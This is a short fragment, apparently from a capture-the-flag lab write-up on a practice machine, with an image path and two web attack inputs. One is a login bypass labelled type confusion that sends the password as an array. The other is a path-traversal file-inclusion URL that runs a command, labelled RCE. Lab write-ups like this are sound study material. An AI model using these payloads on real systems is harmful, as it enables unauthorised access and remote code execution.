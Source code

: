 username=admin&password[]=  
Type Confusion  
  
http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../var/tmp/0xdf.php&cmd=id  
^RCE